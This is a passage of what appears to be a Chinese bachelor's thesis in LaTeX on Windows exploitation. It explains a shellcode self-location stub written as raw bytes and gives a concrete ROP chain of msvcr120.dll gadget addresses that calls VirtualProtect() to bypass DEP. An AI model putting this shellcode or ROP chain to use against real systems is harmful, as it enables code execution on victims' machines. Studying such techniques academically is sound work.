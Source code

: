 \documentclass[bachelor]{thesis-uestc}
\begin{document}
\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]
CODE_ENTRY:
/* 0 */	 0xE8;
/* 1 */	 0xFF;
/* 2 */	 0xFF;
/* 3 */	 0xFF;
/* 4 */	 0xFF; // call 0xFFFFFFFF
LABEL_BASE:
/* 5 */	 0xC2;
/* 6 */	 0x59;
/* 7 */	 0x90;
\end{lstlisting}

``call -1''后LABEL\_BASE的地址被压栈, 然后eip指向标号4, 将标号4和5的``FFC2''译码成``inc edx''; 然后执行标号6的``pop ecx''(0x59), 将保存在栈顶的LABEL\_BASE的地址pop进ecx; 之后执行标号7的``nop''(0x90). 至此实现了自定位——LABEL\_BASE的地址被保存在ecx。

\section{突破数据执行保护(DEP)}
突破DEP的方法是使用ROP链构造VirtualProtect()函数调用，将shellcode所在的栈内存设置为可执行。构造ROP链的方式可以使用WinDbg+mona，但是该方法只适用于32位系统，所以gadgets的搜索只能自己编写程序完成。\href{https://www.anquanke.com/post/id/168276}{https://www.anquanke.com/post/id/168276}给出了mona提供的一段ROP链，实际使用时为了简便，我对该ROP链进行了一些修改，修改如下：

\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]
	0x5a58ed02, // # pop ebp # ret [msvcr120.dll]
	0x5a58ed02, // # skip 4 bytes [msvcr120.dll]
	0x5a582308, // # pop ebx # ret [msvcr120.dll]
	0x00000201, // 0x00000201 -> ebx [msvcr120.dll]
	0x5a58e734, // # pop edx # ret [msvcr120.dll]
	0x00000040, // 0x00000040 -> edx [msvcr120.dll]
	0x5a58ec8c, // # pop ecx # ret [msvcr120.dll]
	0x5a65e000, // &writable location [msvcr120.dll]
	0x5a58f0f3, // # pop edi # ret [msvcr120.dll]
	0x5a58139b, // # ret [msvcr120.dll]
	0x5a58f74a, // # pop esi # ret [msvcr120.dll]
	0x5a58efd7, // # jmp eax [msvcr120.dll]
	0x5a58469c, // # pop eax # ret [msvcr120.dll]
	0x76b743ce, // entry of VirtualProtect() [kernel32.dll]
	0x5a5846a0, // # pushad # ret [msvcr120.dll]
	0x5a5bac78  // # push esp # ret [msvcr120.dll]
\end{lstlisting}

这段ROP链直接跳转到VirtualProtect()的入口，而不是借助mvscr120.dll的IAT。
\end{document}
